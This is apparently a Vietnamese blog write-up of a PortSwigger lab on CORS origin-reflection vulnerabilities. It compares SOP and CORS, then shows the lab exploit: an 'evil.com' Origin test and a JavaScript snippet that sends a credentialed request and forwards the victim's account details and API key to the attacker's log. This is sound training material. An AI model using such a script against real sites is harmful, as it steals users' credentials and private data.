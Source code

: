 ```yaml
---
title: "[PortSwigger Lab] - Cross Origin Resource Sharing (CORS)"
description: Solution of Cross Origin Resource Sharing (CORS) on PortSwigger Lab
date: 2025-06-07 20:46:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, cors]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-07-portswigger-lab-cors/cors.png
    alt: Cross Origin Resource Sharing (CORS)
---
```


## Introduction
**Cross-Origin Resource Sharing (CORS)** là một cơ chế bảo mật của trình duyệt, cho phép hoặc từ chối các yêu cầu từ một origin khác với origin của trang web hiện tại. Nó mở rộng **Same-Origin Policy (SOP)** — chính sách chỉ cho phép các tài nguyên được truy cập nếu chúng đến từ cùng một origin (gồm `scheme`, `hostname` và `port`).

| **Tiêu chí**                       | **Same-Origin Policy (SOP)**                                                      | **Cross-Origin Resource Sharing (CORS)**                                                     |
| ---------------------------------- | --------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------- |
| **Mục tiêu chính**                 | Ngăn chặn website này truy cập dữ liệu riêng tư của website khác                  | Cho phép truy cập có kiểm soát đến tài nguyên từ origin khác                                 |
| **Phạm vi áp dụng**                | Trình duyệt web (JavaScript không được truy cập tài nguyên khác origin)           | Trình duyệt web (mở rộng khả năng truy cập cross-origin có kiểm soát)                        |
| **Thành phần xác định origin**     | Scheme (protocol), domain, port                                                   | Cũng dùng Origin (scheme + domain + port) để xác định ai được phép truy cập                  |
| **Hành vi mặc định**               | **Chặn** truy cập giữa các origin khác nhau                                       | **Không cho phép** nếu không có header CORS hợp lệ từ phía server                            |
| **Tác động đến JS**                | Không cho phép JavaScript đọc dữ liệu từ các trang khác origin                    | Cho phép nếu server gửi đúng header `Access-Control-Allow-Origin`                            |
| **Cho phép tải tài nguyên không?** | Có thể tải hình ảnh, script, font… từ domain khác (nhưng không được đọc nội dung) | Có thể cho phép đọc nội dung, gửi cookie nếu server đồng ý bằng header                       |
| **Kiểm soát từ phía nào?**         | Trình duyệt kiểm soát                                                             | Trình duyệt **và** server phối hợp (server phải trả header phù hợp)                          |
| **Có hỗ trợ cookie không?**        | Cookie được gửi theo origin, nhưng JS không thể đọc cookie của origin khác        | Có, nếu server trả `Access-Control-Allow-Credentials: true` và không dùng `*`                |
| **Tính mở rộng**                   | Không mở rộng – giới hạn nghiêm ngặt giữa các origin                              | Rất linh hoạt, nhưng dễ **cấu hình sai dẫn đến lỗ hổng bảo mật**                             |
| **Lỗi phổ biến**                   | Không có (vì chặn mặc định)                                                       | Phản hồi `Access-Control-Allow-Origin` với bất kỳ Origin (reflect origin) → **lỗ hổng CORS** |
| **Cách dùng phổ biến**             | Tự động, không cần cấu hình                                                       | Dùng khi website cần chia sẻ tài nguyên qua API hoặc frontend từ domain khác                 |

## Solve CORS Lab

| Thành phần                         | Giá trị phản ánh lỗi                              |
| ---------------------------------- | ------------------------------------------------- |
| `Access-Control-Allow-Origin`      | Phản chiếu lại bất kỳ `Origin` gửi lên            |
| `Access-Control-Allow-Credentials` | `true` (cho phép cookie được gửi đi và dùng)      |

### Lab: CORS vulnerability with basic origin reflection
#### Analysis
- Login bằng tài khoản được cấp 
- Mở **Proxy** > **HTTP History** của **Burp**
- Tìm request **AJAX** gửi đến `/accountDetails`, thấy response có header `Access-Control-Allow-Credentials: true` => Gợi ý rằng **server** có hỗ trợ **CORS**.
- Thêm header `Origin: https://evil.com` trong request để test server có **reflect Origin** không
- Server phản hồi `Access-Control-Allow-Origin: https://evil.com` => **reflect Origin**

=> Như này tất cả các request sẽ được trình duyệt chấp nhận 

#### Exploit
- Tạo script gửi đến victim
```html
    <script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('GET', 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails', true);
        req.withCredentials = true;  // Cho phép gửi cookie 
        req.send();

        function reqListener() {
            // Gửi kết quả (API key) về attacker (qua đường dẫn /log)
            location = '/log?key=' + this.responseText;
        };
    </script>
```
- Khi victim truy cập vào trang web của attacker, script trên được thực thi, theo hành vi mặc định, **browser** thêm **header Origin: evil.com** vào request, trong trường hợp này:
    - Server phản hồi lại `Access-Control-Allow-Origin: evil.com` và `Access-Control-Allow-Credentials: true`
    - Vì vậy request thành công khi server chấp nhận **Origin** và **cookie** từ **browser**
- Lấy `apikey` và submit

### 

---
Goodluck! 🍀🍀🍀